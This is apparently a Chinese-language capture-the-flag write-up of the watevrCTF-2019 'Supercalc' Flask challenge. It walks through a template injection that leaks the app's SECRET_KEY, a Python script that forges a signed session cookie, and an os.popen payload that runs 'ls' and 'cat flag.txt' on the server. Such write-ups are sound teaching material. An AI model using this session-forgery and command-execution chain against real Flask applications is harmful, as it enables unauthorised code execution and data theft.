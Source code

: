 ### [watevrCTF-2019]Supercalc

> session

#python #ctf #rce
----

<img src="https://gitee.com/bx33661/image/raw/master/path/image-20241012173028599.png" style="zoom:50%;" />



挺好看的一个界面，只有一个输入框，看了一下是python的web应用,并且还在cookie中发现session类型

```python
import base64
import json

def decode_session(session_data):
    try:
        # 分割session数据
        parts = session_data.split('.')
        if len(parts) != 3:
            raise ValueError("Session data should have three parts separated by dots.")

        # 尝试Base64解码第一个部分
        decoded_data = base64.urlsafe_b64decode(parts[0])
        print("Base64 Decoded Data:", decoded_data)

        # 尝试解析JSON
        json_data = json.loads(decoded_data.decode('utf-8'))
        print("Parsed JSON Data:", json_data)
    except Exception as e:
        print("Error decoding or parsing session data:", e)

# 示例session数据
session_data = "eyJoaXN0b3J5IjpbeyJjb2RlIjoiMSArIDEifV19.X98yeg.YggVMibcD6Bh8ZqORv4BMRBfNS0"

# 解码session数据
decode_session(session_data)

"""
Base64 Decoded Data: b'{"history":[{"code":"1 + 1"}]}'
Parsed JSON Data: {'history': [{'code': '1 + 1'}]}
"""
```

我们接下来就有思路了，寻找密钥构造

![image-20241012172851084](https://gitee.com/bx33661/image/raw/master/path/image-20241012172851084.png)

尝试报错发现flask-debug，

<img src="https://gitee.com/bx33661/image/raw/master/path/image-20241012173454124.png" alt="image-20241012173454124" style="zoom:80%;" />

尝试`{{7*7}}`，但是页面报错，所以我们尝试构造`1+2#{{7*7}}`,成功了

![image-20241012173708520](https://gitee.com/bx33661/image/raw/master/path/image-20241012173708520.png)

但是我们接着尝试其他操作的时候报错了，应该是存在过滤，我们尝试访问{{config}}

![image-20241012173853552](https://gitee.com/bx33661/image/raw/master/path/image-20241012173853552.png)

这个被实体编码了，我们尝试解码，这里我才用python脚本：

```python
import html

def decode_html_entities(encoded_string):
    return html.unescape(encoded_string)

encoded_string = " {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;cded826a1e89925035cc05f0907855f7&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(0, 43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093}&gt;"
decoded_string = decode_html_entities(encoded_string)

print("Encoded String:", encoded_string)
print("---------------------------------------------------------------------------------")
print("Decoded String:", decoded_string)
```



解码之后：

```python
{'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'cded826a1e89925035cc05f0907855f7', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>
```

我们发现密钥：`cded826a1e89925035cc05f0907855f7`,接着我们就可以构造session了

这里采用flask-session那个脚本,还可以用下面这个简单点的:

```python
from flask.sessions import SecureCookieSessionInterface
secret_key = "cded826a1e89925035cc05f0907855f7"
class FakeApp:
    secret_key = secret_key


fake_app = FakeApp()
session_interface = SecureCookieSessionInterface()
serializer = session_interface.get_signing_serializer(fake_app)
payload = serializer.dumps(
    {"history": [{"code": '__import__("os").popen("ls ").read()'}]}
)
print(payload)
```

Payload:

![image-20241012175748887](https://gitee.com/bx33661/image/raw/master/path/image-20241012175748887.png)

```python
# {"history": [{"code": '__import__("os").popen("ls ").read()'}]}
eyJoaXN0b3J5IjpbeyJjb2RlIjoiX19pbXBvcnRfXyhcIm9zXCIpLnBvcGVuKFwibHMgXCIpLnJlYWQoKSJ9XX0

#发现flag.txt
#{"history": [{"code": '__import__("os").popen("cat flag.txt").read()'}]}
eyJoaXN0b3J5IjpbeyJjb2RlIjoiX19pbXBvcnRfXyhcIm9zXCIpLnBvcGVuKFwiY2F0IGZsYWcudHh0XCIpLnJlYWQoKSJ9XX0.ZwpHng.iAZ3QSGmOtC826N897VmB-LeHOA
```

![image-20241012175606493](https://gitee.com/bx33661/image/raw/master/path/image-20241012175606493.png)